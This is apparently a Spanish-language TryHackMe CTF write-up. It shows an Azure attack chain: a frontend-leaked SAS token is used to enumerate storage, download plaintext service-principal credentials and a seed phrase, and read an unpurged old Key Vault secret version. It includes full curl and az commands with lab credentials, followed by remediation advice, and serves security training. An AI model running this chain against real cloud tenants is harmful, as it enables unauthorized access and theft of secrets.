Plataforma
TryHackMe
Se explotó un SAS token con permisos excesivos filtrado en el frontend de un kiosko de backups, lo que permitió descubrir un container oculto en la cuenta de Storage y extraer credenciales de un Service Principal en texto plano. Con esas credenciales se accedió a un Azure Key Vault y, aprovechando que una versión anterior de un secreto rotado seguía siendo legible, se reconstruyó una seed phrase de wallet completa.
El objetivo era "CryptoCabana", un kiosko web del resort que ofrecía a los huéspedes hacer backup de sus seed phrases de wallet cripto, con la promesa de landing page "Backed up. Sleep easy." Según el briefing, un huésped había hecho ese backup semanas atrás y esa misma mañana su wallet fue vaciada por una transacción que él nunca firmó — alguien más tuvo acceso a lo que se suponía debía quedar resguardado. El objetivo del ejercicio era averiguar en qué confiaba el kiosko para acceder al storage por su cuenta, y hasta dónde llegaba esa confianza.
El primer paso técnico fue obtener acceso al entorno de laboratorio de TryHackMe (Azure CLI vía Cloud Shell o instalado localmente), usando las credenciales temporales del panel de Cloud Details:

az --version
azure-cli 2.88.0
Tras una regeneración de instancia, se refrescaron las credenciales desde el mismo panel:

Con esas credenciales se inició sesión en Azure, confirmando la suscripción Az-Subs-CTF y el tenant THM CTF:
az login --username usr-08068952@thmctf.onmicrosoft.com --allow-no-subscriptions
Siguiendo la primera pista del itinerario — inspeccionar qué entregaba el kiosko "gratis" antes de interactuar con él — se analizó el código fuente de la página estática (cryptocabanaf5scjagc.z13.web.core.windows.net) alojada en Azure Storage Static Website. Ahí se encontró un SAS (Shared Access Signature) token embebido en el JavaScript del frontend, usado por el kiosko para leer directamente desde un container de Storage llamado backups.
Se identifican varias fallas encadenadas:
backups — permitía además enumerar la cuenta de Storage completa (comp=list a nivel de cuenta), revelando la existencia de un container adicional no referenciado en ningún lugar del sitio.vault) con datos sensibles: ese container contenía un archivo de credenciales de un Service Principal de Azure en texto plano y una seed phrase de wallet.Paso 1 — Intento de listado del container conocido (backups). Con el SAS token extraído del JavaScript del kiosko, se intentó listar el contenido del container que el sitio sí referenciaba:
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/backups?restype=container&comp=list&sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=..." | xmllint --format -
<EnumerationResults ServiceEndpoint="https://cryptocabanaf5scjagc.blob.core.windows.net/" ContainerName="backups">
<Blobs/>
<NextMarker/>
</EnumerationResults>El resultado fue un container vacío — ningún blob dentro de backups. Esto sugería que el nombre visible desde el frontend no era el destino real de los datos sensibles.

Paso 2 — Enumeración a nivel de cuenta de Storage. Dado que el SAS token tenía srt=sco (service, container, object), su alcance no estaba limitado a un único container. Se repitió la petición apuntando a la raíz de la cuenta en lugar del container específico:
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/?comp=list&sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=..." | xmllint --format -
<EnumerationResults ServiceEndpoint="https://cryptocabanaf5scjagc.blob.core.windows.net/">
<Containers>
<Container>
<Name>$web</Name>
...
</Container>
<Container>
<Name>backups</Name>
...
</Container>
<Container>
<Name>vault</Name>
...
</Container>
</Containers>
</EnumerationResults>Esta enumeración reveló un tercer container, vault, que no estaba referenciado en ningún lugar del sitio ni del JavaScript del kiosko.

Paso 3 — Descarga de los blobs dentro de vault. Con el mismo SAS token (válido a nivel de cuenta) se descargaron y leyeron los dos archivos encontrados:
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/vault/backup-service-account.json?sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=..." -o backup-service-account.json
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/vault/seed_phrase.txt?sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=..." -o seed_phrase.txt
cat backup-service-account.json
{"client_id":"dbcf2923-e4eb-4b72-a0a4-688aa1185cf5","client_secret":"UBX8Q-xM6vawWZ5u2C-VhLlsB2Cx2dAuxcrAlbRg","key_vault_name":"ccabana-kv-f5scjagc","key_vault_uri":"https://ccabana-kv-f5scjagc.vault.azure.net/","note":"CryptoCabana backup automation account. Rotate this if it ever leaves the vault. -- IT","tenant_id":"8f8c5f8e-42d3-4ceb-97ad-241bbf446d6c"}
cat seed_phrase.txt
velvet cabana rebuild scatter obvious wallet drift lagoon punchline receipt orbit shrimpEl archivo backup-service-account.json contenía credenciales completas de un Service Principal (client_id, client_secret, tenant_id) en texto plano, junto con el nombre del Key Vault asociado. El archivo seed_phrase.txt exponía directamente una seed phrase de wallet en texto plano — la nota interna, irónicamente, advertía "rotar esto si alguna vez sale del vault", sin anticipar que el propio vault sería alcanzable por el SAS del frontend.

Paso 4 — Login como Service Principal y enumeración del Key Vault. Con las credenciales filtradas se inició sesión en Azure como el propio Service Principal de automatización de backups:
az login --service-principal \
--username dbcf2923-e4eb-4b72-a0a4-688aa1185cf5 \
--password 'UBX8Q-xM6vawWZ5u2C-VhLlsB2Cx2dAuxcrAlbRg' \
--tenant 8f8c5f8e-42d3-4ceb-97ad-241bbf446d6cEl login fue exitoso, confirmando el tipo de identidad como servicePrincipal. A continuación se listaron los secrets disponibles en el Key Vault referenciado en el JSON filtrado:
az keyvault secret list --vault-name ccabana-kv-f5scjagc --output table
Name Id
------------ --------------------------------------------------------
key-shard-1 https://ccabana-kv-f5scjagc.vault.azure.net/secrets/key-shard-1
key-shard-2 https://ccabana-kv-f5scjagc.vault.azure.net/secrets/key-shard-2
key-shard-3 https://ccabana-kv-f5scjagc.vault.azure.net/secrets/key-shard-3
master-key https://ccabana-kv-f5scjagc.vault.azure.net/secrets/master-key
Paso 5 — Lectura de secrets: acceso parcial. Se intentó leer el valor de cada secret. key-shard-1 y key-shard-3 se obtuvieron sin problema, pero master-key devolvió 403 Forbidden por política RBAC — el Service Principal no tenía permiso de lectura sobre ese secret específico.
Code: Forbidden
Message: Caller is not authorized to perform action on resource.
...
Resource: '.../vaults/ccabana-kv-f5scjagc/secrets/master-key'
Vault: ccabana-kv-f5scjagc;location=eastusSin embargo, el permiso de listar versiones de otros secrets sí estaba disponible. Aplicando la pista narrativa de @0xMia sobre revisar qué aspecto tenían los valores antes de su rotación, se listaron las versiones históricas de key-shard-2:
az keyvault secret list-versions --vault-name ccabana-kv-f5scjagc --name key-shard-2 --output table
Name
------------
key-shard-2
key-shard-2Existían dos versiones del mismo secret — la actual y una anterior, previa a la rotación.

El comando de login como Service Principal se muestra completo a continuación, usando el client_id, client_secret y tenant_id extraídos del JSON filtrado:

Paso 6 — Lectura de la versión anterior (pre-rotación) de key-shard-2. Con el ID de la versión antigua obtenido del listado, se leyó directamente ese valor histórico:
az keyvault secret show --vault-name ccabana-kv-f5scjagc --name key-shard-2 \
--version 3d6492d2c6f74123bc754a9ded22b2a0 --query value -o tsv
_k3ys_n0t_La versión anterior del secreto, técnicamente "reemplazada" por la rotación, seguía siendo completamente legible y contenía el fragmento real de la clave: _k3ys_n0t_.

Combinando los fragmentos obtenidos de key-shard-1, key-shard-3 y la versión histórica de key-shard-2 se reconstruyó la flag del reto:
THM{n0t_ur_k3ys_n0t_ur_c01ns!}La cadena completa permitió:
vault) nunca referenciado públicamente, alcanzado solo por el alcance excesivo del SAS token del frontend.master-key estaba correctamente protegido por RBAC, el fragmento equivalente en key-shard-2 quedó expuesto igual a través de su versión anterior, no purgada tras la rotación.El impacto en un entorno real sería crítico para el usuario final: la exposición de una seed phrase equivale a pérdida total de fondos en la wallet asociada, tal como describe el briefing del reto. A nivel de infraestructura, la identidad de Service Principal comprometida podría usarse como punto de apoyo para explorar otros recursos del tenant a los que tuviera acceso.
srt) de los SAS tokens: limitar el token al recurso específico que necesita (objeto o container puntual), nunca a nivel de servicio/cuenta completa, para que la enumeración de otros containers no sea posible aunque el token se filtre.master-key fue correcta, pero de nada sirve si un secreto funcionalmente equivalente (key-shard-2) queda expuesto por otra vía. La política de acceso debe cubrir el dato, no solo el nombre del secret actual.Este reto ilustra un patrón recurrente en entornos cloud: controles de acceso que son técnicamente correctos en su capa más visible (RBAC bloqueando master-key) pero que se vuelven irrelevantes si existe una ruta alternativa hacia el mismo dato — en este caso, una versión anterior del secreto equivalente que nunca fue purgada.
También refuerza que el alcance de un SAS token importa tanto como su exposición. Un token filtrado con permisos de solo lectura sobre un único blob es un incidente menor; el mismo token con srt=sco (acceso a nivel de servicio) convierte una filtración puntual en una puerta hacia toda la cuenta de Storage, incluyendo recursos que nadie pensó en ocultar activamente porque "no estaban enlazados en ningún lado".
Por último, la pista narrativa del reto — desconfiar de valores "recién rotados" y preguntarse cómo se veían minutos antes — es un buen recordatorio de metodología: en Key Vault, list-versions y show --version son comandos de reconocimiento tan valiosos como cualquier scanner, y una rotación de secretos sin política de expiración de versiones antiguas no es una rotación real.